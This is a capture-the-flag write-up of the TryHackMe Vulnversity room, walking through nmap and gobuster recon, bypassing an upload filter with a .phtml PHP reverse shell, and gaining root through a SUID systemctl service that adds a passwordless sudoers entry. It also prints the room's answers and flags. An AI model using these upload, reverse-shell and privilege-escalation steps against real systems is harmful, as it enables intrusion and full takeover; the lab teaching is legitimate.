

# TryHackMe's Vulnversity Room

## Intro

This post is a writeup on the Vulnversity room of the TryHackMe's Offensive Pentesting path.  
The room covers concepts such as active recon, web application attacks and privilege escalation.
In the following sections we assume that 10.10.209.195 is the target machine's IP. Yours will be different.

## Recon

After deploying the machine the first thing we are asked to do is to scan it, so we run

```bash
nmap -sV 10.10.209.195
```

and we obtain the following:

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-11 13:41 BST
Nmap scan report for ip-10-10-209-195.eu-west-1.compute.internal (10.10.209.195)
Host is up (0.00050s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 02:6B:DC:0C:F2:01 (Unknown)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.00 seconds
```

We notice in the output that non-standard ports are open, like the port 3333 for the http server: be always sure to scan for ports above 1000, you never know what you might find open!

Now let's look at the previous output to answer the questions:  
**Question 1**: How many ports are open? **6**  
**Question 2**: What version of the squid proxy is running on the machine? **3.5.12**  
**Question 3**: How many ports will Nmap scan if the flag -p-400 was used? **400**  
**Question 4**: What is the most likely operating system this machine is running? **Ubuntu**  
**Question 5**: What port is the web server running on? **3333**  
**Question 6**: What is the flag for enabling verbose mode using Nmap? **-v**

## Directory discovery

In the previous section we found a web server running on port 3333, which is serving a web application.  
In the second section of the room we are interested in enumerating hidden directories of this application to expand our attack surface. We will use **GoBuster**.  
For those unfamiliar, gobuster is a tool for brute-forcing URIs, among other things. It uses a wordlist to attempt to discover the target's directories.  
Let's run

```bash
gobuster dir -u http://10.10.209.195:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

The wordlist used is already available on Kali Linux without the need to download it.  
Here's part of the output:

```bash
===============================================================
2024/09/11 14:14:20 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/internal (Status: 301)
===============================================================
2024/09/11 14:14:39 Finished
===============================================================
```

Beside the standard stuff we expect to see on a webserver such as images, css and js, we see an interesting _/internal_ directory.  
It may be useful in general to re-run recursively the tool on the directories that are deemed interesting, so let's run it again on the /internal directory

```bash
gobuster dir -u http://10.10.209.195:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

```bash
...
===============================================================
2024/09/11 14:20:34 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
===============================================================
2024/09/11 14:20:53 Finished
===============================================================
```

This _/uploads_ subdirectory looks mighty interesting.

Now we try to access this directories with the browser.


The _/internal_ directory contains an upload form.


The _/uploads_ directory may contain the uploaded files.

**Question:** What is the directory that has an upload form page? **/internal/**

## File Upload Vulnerability

Every file upload on a website is susceptible to a file upload vulnerability: it means that if the server does not properly filter the uploaded files we might be able to upload arbitrary types of files, even executable ones. This can potentially lead to RCE (Remote Control Execution).

We will utilize Burp's Intruder module to check what kind of files the server accepts.  
Let's try our luck with the following wordlist:

- php
- php3
- php4
- php5
- phtml

We activate Burp's proxy, upload a file and capture the request. Then we send it to the Intruder module:



Next we add our wordlist in the Payload tab of the Intruder


and configure the payload positions like below:


We can now start the attack and receive the following results:


We discover that the server rejects all the files extensions in the wordlist except for the 'phtml' extension, which is not properly filtered.

With this information we can attempt to upload a reverse shell on the target machine and obtain RCE.  
We use a php shell already available on Kali: _/usr/share/webshells/php/php-reverse-shell.php_.

Run the following:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php /tmp/shell.phtml
```

Edit the /tmp/shell.phtml with your favorite editor


We need to change the $ip variable with the ip of our own attackbox.  
Remember: in a reverse shell the target initiates a connection to our own machine on a port where we are listening, hence it needs to know our ip.

Start the listener on our own machine:

```bash
root@ip-10-10-14-221: nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
```

Upload the shell file on the target


Go to _http://10.10.209.195:3333/internal/uploads/_

  
and click on the _shell.phtml_ file.

Now, fingers crossed, you should get a shell to the target machine on the listener:

```bash
root@ip-10-10-14-221:~# nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.209.195 39418 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:58:50 up  2:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$
```

As we can confirm with the **id** and **whoami** command we have now access to the target machine with the user **www-data**.

**Question:** What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out. **.php**  
**Question:** What extension is allowed after running the above exercise? **.phtml**  
**Question:** What is the name of the user who manages the webserver?

```bash
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:111:119:ftp daemon,,,:/srv/ftp:/bin/false
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```

Examining the passwd file we can surmise that the only actual human user is **bill**.

**Question:** What is the user flag?  
We are looking for bill's flag so it makes sense to go look in bill's home directory.

```bash
$ cd /home/bill
$ ls
user.txt
$ cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

So the answer is **8bd7992fbe8a6ad22a63361004cfcedb**

## Privilege Escalation

We now have access to the target machine but, alas, our privileges are limited.  
There are several ways to escalate privileges on a Linux machine, in this instance we are going to use the SUID bit trick.

In Linux, SUID (set owner userId upon execution) is a particular type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).  
So, to clarify, if you have access to an executable file **owned by root with the SUID bit set** you can run that program with the permissions of root.  
This can sometimes be leveraged to obtain higher privileges on the system and that's what we are going to do.

We will use _https://gtfobins.github.io/_ which is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

First we need to stabilize the shell, since pure netcat shells tend to be not so stable, run this on the target machine:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

We should get this output:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ export TERM=xterm
export TERM=xterm
www-data@vulnuniversity:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@ip-10-10-14-221:~# stty raw -echo; fg
nc -lvnp 1234

www-data@vulnuniversity:/$
```

Click the 'Enter' key if the terminal gets "stuck" after this procedure.

Run the following to discover the files with the SUID bit set:

```bash
www-data@vulnuniversity:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

We cross-check the files of the previous output with the programs on the _https://gtfobins.github.io/_ page and find out that _/bin/systemctl_ is in our list and is susceptible to SUID exploitation.

Since systemctl is owned by root that means that we can run it with root's permission.  
How do we use this?  
We craft a oneshot service that will execute a malicious instruction and run the service with systemctl!  
But what is the malicious command?  
There are many ways to obtain a root shell, in our case we will add a line to the /etc/sudoers file to give our current user the privilege to use sudo **without password**.

Run

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "echo \"www-data ALL=(ALL) NOPASSWD:ALL\" | sudo tee -a /etc/sudoers"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

Now our current user is able to run commands as superuser without need to authenticate, let's check it:

```bash
www-data@vulnuniversity:/$ sudo ls /root
root.txt
```

To obtain a root shell:

```bash
www-data@vulnuniversity:/$ sudo /bin/bash
root@vulnuniversity:/# whoami
root
root@vulnuniversity:/#
```

Now we are root.

**Question:** On the system, search for all SUID files. Which file stands out? **/bin/systemctl**  
**Question:** What is the root flag value?  
As for bill's flag the most logical course of action is to look in the /root folder

```bash
root@vulnuniversity:/# cd /root
root@vulnuniversity:~# ls
root.txt
root@vulnuniversity:~# cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
```

So the answer is **a58ff8579f0a9270368d33a9966c7fd5**

This concludes the Vulnversity room, see you in the next one!
